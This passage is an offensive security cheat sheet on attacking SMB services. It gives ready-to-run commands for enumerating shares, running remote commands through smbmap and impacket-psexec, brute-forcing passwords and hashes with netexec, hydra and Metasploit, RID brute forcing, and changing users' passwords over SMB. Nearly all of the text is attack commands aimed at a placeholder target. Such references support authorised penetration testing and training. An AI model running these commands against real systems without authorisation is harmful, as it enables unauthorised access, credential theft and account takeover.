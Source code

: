 ### Find Shared Folders

```sh
# -N: No password
# -L: List shared directories
smbclient -N -L <target-ip>
smbclient -L <target-ip> -U username

smbmap -H <target-ip>
# Recursive
smbmap -H <target-ip> -R
# Username and password
smbmap -u username -p password -H <target-ip>
# Execute a command
smbmap -u username -p password -H <target-ip> -x 'ipconfig'

netexec smb <target-ip> -u '' -p '' --shares
netexec smb <target-ip> -u username -p password --shares

impacket-psexec example.local/username@<target-ip>
```

### Brute Force Credentials

```sh
netexec smb <target-ip> -u username -p passwords.txt --continue-on-success
netexec smb <target-ip> -u usernames.txt -H ntlm_hashes.txt --continue-on-success

hydra -l username -P passwords.txt <target-ip> smb
hydra -L usernames.txt -p password <target-ip> smb

# RID Brute Force
netexec smb <target-ip> -u username -p password --rid-brute 20000

# Using Metasploit
msfconsole
msf> use auxiliary/scanner/smb/smb_login
```

If we find credentials, we can use them for **smbclient** or **WinRM**.  
If we got **"STATUS_PASSWORD_MUST_CHANGE"** for some users, we can update a current password to a new one.

```bash
smbpasswd -r <target-ip> -U <username>
# or
impacket-smbpasswd <DOMAIN>/<username>:<password>@<target-ip> -newpass <new-password>
# If you don't have impacket-smbpasswd, download it from a repository.
wget https://raw.githubusercontent.com/fortra/impacket/master/examples/smbpasswd.py
```

<br />

## RID Cycling Attack
